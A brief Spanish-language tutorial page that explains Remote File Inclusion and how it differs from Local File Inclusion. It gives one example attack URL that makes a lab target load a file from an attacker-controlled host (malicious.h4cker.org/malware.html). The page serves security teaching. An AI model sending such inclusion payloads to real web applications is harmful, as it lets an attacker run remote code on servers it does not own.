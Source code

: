 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Remote File Inclusion (RFI)

\
Las vulnerabilidades de inclusión remota de archivos (RFI) son similares a las vulnerabilidades LFI. Sin embargo, cuando un atacante explota una vulnerabilidad RFI, en lugar de acceder a un archivo de la víctima, el atacante puede ejecutar código alojado en su propio sistema (el sistema atacante).

La muestra un ejemplo de cómo explotar una vulnerabilidad de inclusión remota de archivos.

_Explotación de una vulnerabilidad de inclusión remota de archivos_

El atacante ingresa la siguiente URL para realizar el ataque:

```
http://192.168.78.8:66/vulnerabilities/fi/?page=http://malicious.h4cker.org/malware.html
```
